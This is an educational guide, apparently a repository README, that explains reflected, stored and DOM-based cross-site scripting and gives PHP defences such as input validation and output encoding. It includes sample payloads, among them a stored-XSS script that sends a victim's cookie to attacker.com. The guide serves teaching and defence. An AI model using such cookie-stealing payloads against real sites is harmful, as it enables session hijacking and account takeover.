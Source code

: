 # Cross-Site Scripting (XSS)

## What is Cross-Site Scripting (XSS)?
Cross-site scripting (XSS) is a web security vulnerability that allows an attacker to compromise the interactions that users have with a vulnerable application. It enables attackers to bypass the same-origin policy, designed to segregate different websites. XSS vulnerabilities allow attackers to:
- Masquerade as a victim user.
- Execute any action the user can perform.
- Access and modify user data.
- Gain full control of the application's functionality if the victim has privileged access.

---

## How Does XSS Work?
XSS works by manipulating a vulnerable website to return malicious JavaScript to users. When the malicious code executes in a victim's browser, the attacker can fully compromise the user's interaction with the application.

---

## Types of XSS Attacks
### 1. **Reflected XSS**
- **What is Reflected XSS?**
  Occurs when an application includes user-supplied data in its HTTP response without proper validation or escaping.
- **How to Detect and Exploit:**
  1. Inject JavaScript code (e.g., `alert`, `document.cookies`) and observe the response.
  2. If the code executes, the site is vulnerable.
- **Example:**
  ```javascript
  <script>alert('XSS Vulnerability');</script>
  ```

### 2. **Stored XSS**
- **What is Stored XSS?**
  Arises when an application stores user-supplied data and later includes it in HTTP responses unsafely.
- **Example:**
  If a comment section allows storing malicious code:
  ```javascript
  <script>document.location='http://attacker.com/steal?cookie='+document.cookie;</script>
  ```

### 3. **DOM-Based XSS**
- **What is DOM-Based XSS?**
  Occurs when JavaScript takes attacker-controlled data (e.g., from `window.location`) and passes it to a sink (e.g., `eval`, `innerHTML`) that executes dynamic code.
- **How to Test:**
  Use developer tools or vulnerability scanners (e.g., Burp Suite). Construct payloads targeting sources and sinks to observe execution.

---

## Impact of XSS Attacks
If attackers can control a script executed in a victim's browser, they can:
1. Perform any action the user can within the application.
2. View and modify any data accessible to the user.
3. Interact with other users as the victim, potentially launching additional attacks.

---

## Preventing XSS Attacks

### 1. Input Validation and Sanitization
- **Validate Inputs:** Ensure inputs match expected types and reject those with malicious content.
  ```php
  $user_input = $_GET['user_id'];
  if (!is_numeric($user_input)) {
      die("Invalid input");
  }
  ```
- **Sanitize Inputs:** Use functions like `htmlspecialchars()` or `filter_var()` to remove harmful characters.
  ```php
  $safe_input = htmlspecialchars($_GET['input'], ENT_QUOTES, 'UTF-8');
  ```

### 2. Output Encoding (Escaping)
Encode user input before rendering it as HTML to prevent it from being treated as executable code.
- **Example:** 
  ```php
  echo htmlspecialchars($user_input, ENT_QUOTES, 'UTF-8');
  ```

### 3. Use HTTPOnly and Secure Cookies
Mark cookies as HTTPOnly and Secure to protect them from being accessed by JavaScript.

---

By understanding and addressing XSS vulnerabilities, developers can secure their applications and protect user interactions from malicious attacks.
